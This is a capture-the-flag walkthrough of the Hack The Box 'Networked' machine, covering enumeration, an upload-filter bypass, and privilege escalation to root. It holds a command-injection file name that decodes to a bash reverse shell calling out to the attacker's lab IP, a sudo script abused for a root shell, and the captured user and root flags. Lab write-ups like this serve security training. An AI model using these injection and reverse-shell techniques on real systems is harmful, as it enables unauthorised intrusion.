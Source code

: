 # Networked
>Author : Xyan1d3
>Date : 6th July 2021
>IP : 10.10.10.146
>OS : Linux
>Difficulty : Easy

# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Tue Jul  6 23:30:20 2021 as: nmap -sC -sV -v -oN nmap/networked 10.10.10.146
Nmap scan report for networked.htb (10.10.10.146)
Host is up (0.063s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https
```

## Gobuster
```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/networked]
└──╼ # gobuster dir -u http://10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.out -t 100 -x php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.146
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2021/07/06 23:31:57 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/photos.php           (Status: 200) [Size: 1302]                                  
/index.php            (Status: 200) [Size: 229]                                   
/upload.php           (Status: 200) [Size: 169]                                   
/lib.php              (Status: 200) [Size: 0]                                     
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/] 
                                                                                  
===============================================================
2021/07/06 23:39:51 Finished
===============================================================
```

## Web Enumeration
We visit the site and navigate to `photos.php` and find out that it lists the photos.
![[Pasted image 20210706235457.png]]

Now, We check the `/backup` and find out that there is a `backup.tar` which is the web directory files.

# Initial FootHold
In the source of `upload.php` we see that it checks for extensions and mime type which can be easily bypassed.
![[Pasted image 20210706235848.png]]

We get a shell back as the `apache` user.
![[Pasted image 20210707000018.png]]

# User Escalation to guly
We visit the `/home/guly/` and find out that we have a `check_attack.php` which is being executed every `3 minutes`.
```php
bash-4.2$ ls
check_attack.php  crontab.guly  user.txt
bash-4.2$ cat check_attack.php 
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &"); <---CMD injection here
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

As here they are hard coding the path `/var/www/html/uploads` which is shoved into an rm command we may create a file like `;bash reverse shell;` and it will be executed as it will be hardcoded into the rm command by php.

We create a file like 
```python
bash-4.2$ ls -l /var/www/html/uploads/
total 24
-rw-r--r--  1 apache apache  107 Jul  6 20:28 10_10_14_18.php.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_1.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_2.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_3.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_4.png
-rw-r--r--  1 apache apache    0 Jul  6 20:43 ;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC85MDAxIDA+JjE= |base64 -d|bash;
-r--r--r--. 1 root   root      2 Oct 30  2018 index.html
```

Now, We wait for `3` minutes and get a shell back as the user `guly`.
![[Pasted image 20210707002452.png]]

## Getting the user Flag
```python
[guly@networked ~]$ ls -l
total 16
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-rw-------  1 guly guly 774 Jul  6 20:51 dead.letter
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
[guly@networked ~]$ cat user.txt 
526cfc2305f17faaacecf212c57d71c5
```

# Root Escalation
We do a `sudo -l` and find out that have a sudo `nopasswd` on `/usr/local/sbin/changename.sh`.
```python
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL
    PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

On running this file we need to enter any of the inputs with a space and a command and it will be executed.
```python
[guly@networked ~]$ id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh 
interface NAME:
magisk bash
interface PROXY_METHOD:
magisk
interface BROWSER_ONLY:
magisk
interface BOOTPROTO:
magisk
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
```

## Getting the root Flag
```python
[root@networked network-scripts]# cd /root/
[root@networked ~]# ls -l
total 4
-r--------. 1 root root 33 Oct 30  2018 root.txt
[root@networked ~]# cat root.txt 
0a8ecda83f1d81251099e8ac3d0dcb82
```